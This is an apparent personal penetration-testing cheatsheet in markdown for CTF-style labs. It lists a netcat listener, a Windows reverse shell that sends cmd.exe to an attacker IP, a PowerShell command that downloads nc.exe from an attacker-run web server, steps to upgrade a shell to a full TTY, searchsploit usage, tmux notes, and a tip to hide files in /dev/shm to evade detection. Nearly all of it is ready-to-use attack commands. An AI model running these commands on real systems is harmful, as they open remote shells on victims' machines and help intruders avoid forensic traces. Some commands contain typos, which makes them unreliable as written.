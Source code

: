 # Cheatsheet

Listen locally with nc
```
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|



# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever
